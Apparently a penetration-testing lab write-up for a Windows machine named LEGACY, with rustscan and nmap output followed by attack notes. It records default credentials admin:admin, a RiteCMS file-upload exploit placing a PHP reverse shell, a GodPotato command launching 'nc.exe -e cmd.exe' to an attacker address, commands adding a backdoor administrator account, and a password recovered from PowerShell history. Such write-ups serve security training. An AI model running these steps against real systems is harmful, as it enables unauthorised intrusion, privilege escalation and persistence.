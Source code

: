 Windows ttl=125

# rustscan
```
PORT      STATE SERVICE       REASON
80/tcp    open  http          syn-ack ttl 125
135/tcp   open  msrpc         syn-ack ttl 125
139/tcp   open  netbios-ssn   syn-ack ttl 125
3389/tcp  open  ms-wbt-server syn-ack ttl 125
5985/tcp  open  wsman         syn-ack ttl 125
49664/tcp open  unknown       syn-ack ttl 125
49665/tcp open  unknown       syn-ack ttl 125
49666/tcp open  unknown       syn-ack ttl 125
49667/tcp open  unknown       syn-ack ttl 125
49668/tcp open  unknown       syn-ack ttl 125
49669/tcp open  unknown       syn-ack ttl 125

```

# nmap
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-06 10:53 EDT
Nmap scan report for 192.168.211.249
Host is up (0.096s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=LEGACY
| Not valid before: 2024-03-29T19:20:08
|_Not valid after:  2024-09-28T19:20:08
|_ssl-date: 2024-06-06T14:54:25+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LEGACY
|   NetBIOS_Domain_Name: LEGACY
|   NetBIOS_Computer_Name: LEGACY
|   DNS_Domain_Name: LEGACY
|   DNS_Computer_Name: LEGACY
|   Product_Version: 10.0.20348
|_  System_Time: 2024-06-06T14:54:17+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp  open  http          Apache httpd 2.4.54 ((Win64) OpenSSL/1.1.1p PHP/7.4.30)
|_http-server-header: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.30
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.211.249:8000/dashboard/
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (87%)
Aggressive OS guesses: Microsoft Windows Server 2022 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-06T14:54:18
|_  start_date: N/A

TRACEROUTE (using port 8000/tcp)
HOP RTT      ADDRESS
1   96.91 ms 192.168.45.1
2   96.88 ms 192.168.45.254
3   96.93 ms 192.168.251.1
4   96.99 ms 192.168.211.249

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.67 seconds


```


# initial

![[Pasted image 20240607003118.png]]

Found `CMS` directory


![[Pasted image 20240607003215.png]]

**RiteCMS**

https://www.exploit-db.com/exploits/50616

removed .htaccess and upload php-reverse-shell.php

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php
#best-rev-shelll

tried default creds `admin:admin`!

![[Pasted image 20240607003441.png]]

```
192.168.211.249:8000/cms/media/php_reverse_shell.pHp
```

![[Pasted image 20240607003531.png]]

![[Pasted image 20240606211950.png]]


# priv esc

**God Potato**

![[Pasted image 20240607004054.png]]

```
GodPotato.exe -cmd "cmd /c C:\tmp\nc.exe -e cmd.exe 192.168.45.216 5555"
```

https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070
# post enum

![[Pasted image 20240607023812.png]]

there's this staging directory but as godpot gives us broken shell we can't use powershell

so added new user for rdp

```
net user mido mido /add

net localgroup administrators mido /add
```

### rdp

![[Pasted image 20240607024156.png]]

```
git show HEAD
```

powershell history got one more creds
```
i6yuT6tym@
```